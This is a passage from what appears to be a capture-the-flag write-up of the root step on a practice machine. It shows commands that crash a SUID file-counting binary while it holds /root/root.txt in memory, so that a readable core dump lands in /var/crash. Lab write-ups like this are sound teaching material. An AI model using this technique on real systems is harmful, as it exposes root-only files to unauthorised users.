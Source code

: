 ```bash
```

-------------

<br>

# ROOT

### Step 1
Doing a quick manual enumeration with `sudo -l` and looking through some standard directories we find `/opt/count` with the **SUID** bit set. 

```bash
$ ls -al
total 56
drwxr-xr-x  2 root root  4096 Oct  7 10:06 .
drwxr-xr-x 20 root root  4096 Oct  7 15:01 ..
-rw-r--r--  1 root root  3736 Oct  7 10:01 code.c
-rw-r--r--  1 root root 16384 Oct  7 10:01 .code.c.swp
-rwsr-xr-x  1 root root 17824 Oct  7 10:03 count
-rw-r--r--  1 root root  4622 Oct  7 10:04 valgrind.log
```

Playing around with the application, `count`, we can read `/root/root.txt` and when asked to save the count-data to a file we just stop and wait. In theory the data should now be stored in memory and if we some how can **crash** the application maybe we could be able to retreive it.

```bash
dasith@secret:/opt$ ./count 
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: 
```

From a second terminal, force a core dump with `kill -11` (SEGV):
```bash
dasith@secret:/opt$ ps aux | grep count
root         779  0.0  0.1 235672  7464 ?        Ssl  09:04   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      3001  0.0  0.0   2488   588 pts/1    S+   13:14   0:00 ./count
dasith      3004  0.0  0.0   6432   736 pts/0    S+   13:15   0:00 grep --color=auto count
dasith@secret:/opt$ kill -11 3001
```
```bash
dasith@secret:/opt$ ./count 
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: Segmentation fault (core dumped)
dasith@secret:/opt$ ls -al /var/crash/
total 88
drwxrwxrwt  2 root   root    4096 Nov 22 13:15 .
drwxr-xr-x 14 root   root    4096 Aug 13 05:12 ..
-rw-r-----  1 root   root   27203 Oct  6 18:01 _opt_count.0.crash
-rw-r-----  1 dasith dasith 28049 Nov 22 13:15 _opt_count.1000.crash
-rw-r-----  1 root   root   24048 Oct  5 14:24 _opt_countzz.0.crash
```
